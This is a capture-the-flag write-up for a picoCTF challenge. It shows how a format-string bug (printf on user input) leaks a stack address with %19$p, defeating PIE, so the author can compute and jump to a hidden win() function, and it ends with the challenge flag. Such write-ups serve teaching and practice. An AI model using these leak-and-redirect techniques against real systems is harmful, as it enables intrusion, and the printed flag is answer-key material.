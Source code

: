## 👉 Initial Reconnaissance 🔍
First, I downloaded the source and binary to understand what we're dealing with. Ran a quick test:

nc rescued-float.picoctf.net 56651\
Enter your name: a\
a\
enter the address to jump to, ex => 0x12345: b\
Segfault Occurred, incorrect address.

Looks familiar but slightly different from the previous PIE challenge! 🤔

## 👉 Source Code Analysis 📋
Opening the source code revealed the vulnerability:

void call_functions() {\
  char buffer[64];\
  printf("Enter your name:");\
  fgets(buffer, 64, stdin);\
  printf(buffer);  // 🚨 FORMAT STRING VULNERABILITY!

Classic format string bug - our input gets passed directly to printf() without proper format specifiers.

## 👉 Finding the Offset 📐
Used GDB to find the function addresses:

(gdb) disas main\
   0x0000555555555400 <+0>:	endbr64
   
(gdb) disas win\
   0x000055555555536a <+0>:	endbr64

So:\
main() is at 0x555555555400\
win() is at 0x55555555536a

Offset between them: 0x96 (150 in decimal)

This means if we leak main’s address during runtime, we can subtract the offset to calculate win

## 👉 The Challenge - PIE + Format String 🎲
Since PIE is enabled, addresses randomize on each run. Need to:

1. Use format string vulnerability to leak main() address
2. Calculate win() address using the offset
3. Jump to win() function

## 👉 Stack Walking for Address Leak 🕵️
Started testing format string positions:\
Enter your name: %p %p %p %p %p %p %p %p %p %p\
0x60a018e862a1 (nil) 0x60a018e862be 0x7ffde08b1690 0x7c ...

No main address yet. Tried with 20 format specifiers:\
Enter your name: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p\
0x593444b702a1 (nil) 0x593444b702dc 0x7ffde56b3b20 0x7c 0x71dfde3f9238 0x71dfde3eb6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7f000a702520 0x59340848b1c0 0xa77175e5604c2900 0x7ffde56b3b80 ***0x59340848b441*** (nil)

The 19th position showed: 0x59340848b441\
This looked very similar to the GDB address pattern! Comparing:

GDB static: 0x0000555555555400\
Runtime leaked: 0x59340848b441

The last 3 digits were close - I could just change 441 to 400 to get the exact main address!

## 👉 Double-Check ✅
Disassembled main() again and confirmed this address format was correct. The leaked address was indeed pointing into the main function.

## 👉 Final Exploit 🚀
Fresh connection with targeted format string:\
Enter your name: %19$p\
[got main address]

## 👉 Calculation:
Change last 3 digits to 400 to get exact main address\
Subtract 0x96 to get win address\
Example: 0x59340848b400 - 0x96 = 0x59340848b36a

enter the address to jump to, ex => 0x12345: 0x59340848b36a\
You won!\
picoCTF{p13_5h0u1dn'7_134k_cdbb451d}
